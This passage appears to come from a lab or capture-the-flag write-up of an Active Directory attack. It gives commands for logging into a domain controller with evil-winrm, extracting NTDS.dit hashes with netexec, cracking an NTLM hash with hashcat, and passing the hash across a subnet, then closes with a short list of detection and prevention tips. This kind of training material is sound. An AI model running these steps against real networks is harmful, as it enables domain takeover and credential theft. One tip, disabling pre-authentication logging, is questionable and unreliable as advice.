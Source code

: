 #### Phase 4: Domain Controller Access
```bash
# 5. Connect to DC with discovered credentials
evil-winrm -i 10.129.201.57 -u jmarston -p 'Password123!'

# 6. Check privileges
net user jmarston
# Result: Global Group memberships *Domain Users *Domain Admins
```

#### Phase 5: NTDS.dit Extraction
```bash
# 7. Extract all domain hashes with NetExec
netexec smb 10.129.201.57 -u jmarston -p 'Password123!' -M ntdsutil

# All domain hashes extracted, including Jennifer Stapleton's
```

#### Phase 6: Hash Cracking
```bash
# 8. Extract Jennifer Stapleton's hash from output
# jstapleton:1134:aad3b435b51404eeaad3b435b51404ee:161cff084477fe596a5db81874498a24:::

# 9. Crack the hash
echo "161cff084477fe596a5db81874498a24" > jstapleton_hash.txt
hashcat -m 1000 jstapleton_hash.txt /usr/share/wordlists/rockyou.txt

# Result: 161cff084477fe596a5db81874498a24:Password123
```

#### Phase 7: Lateral Movement
```bash
# 10. Use extracted Administrator hash for lateral movement
evil-winrm -i 10.129.201.58 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b

# 11. Compromise additional systems
netexec smb 10.129.201.0/24 -u Administrator -H 64f12cddaa88057e06a81b54e73b949b
```

## 🛡️ Defense and Detection

### Preventing Username Enumeration
- **Disable Kerberos pre-authentication logging** (limited effectiveness)
- **Monitor Event ID 4768** for unusual patterns
- **Network monitoring** for Kerberos traffic spikes
- **Rate limiting** on authentication services

### Preventing Password Attacks
- **Strong account lockout policies** (affects usability)
- **Long and complex passwords** required by policy
- **Monitor Event ID 4625** for failed logons
- **Multi-factor authentication** for privileged accounts
